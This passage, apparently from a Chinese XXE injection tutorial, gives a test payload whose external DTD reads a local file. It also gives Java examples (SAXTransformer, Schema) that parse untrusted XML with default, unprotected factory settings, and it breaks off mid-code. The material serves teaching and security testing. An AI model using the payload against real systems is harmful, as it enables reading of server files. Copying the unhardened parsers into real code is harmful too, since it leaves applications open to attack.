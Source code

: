 



测试poc：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo SYSTEM "http://127.0.0.1:8080/xxe.dtd" >
<message>
    <to>Kobe</to>
    <from>James</from>
    <text>&tmp;</text>
</message>
```

外部DTD:

```xml
<!ENTITY tmp SYSTEM "file:///e://1.txt">

```



#### 7.SAXTransformer

```java
import javax.xml.transform.sax.SAXTransformerFactory;
import javax.xml.transform.stream.StreamSource;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;

public class SAXTransformer {
    public static void main(String[] args) throws Exception {
        File file = new File("oob.xml");
        InputStream inputStream = new FileInputStream(file);
        SAXTransformerFactory factory = (SAXTransformerFactory) SAXTransformerFactory.newInstance();
        StreamSource source = new StreamSource(inputStream);
        factory.newTransformerHandler(source);
    }
}
```





#### 8.Schema

```xml
import javax.xml.XMLConstants;
import javax.xml.transform.Source;
import javax.xml.transform.stream.StreamSource;
import javax.xml.validation.SchemaFactory;
import java.io.File;

public class Schema {
    public static void main(String[] args) throws Exception{
        File file = new File("oob.xml");
        SchemaFactory schemaFactory = SchemaFactory.newInstance(XMLConstants.W3C_XML_SCHEMA_NS_URI);
        Source source = new StreamSource(file);
        schemaFactory.newSchema(source);
```
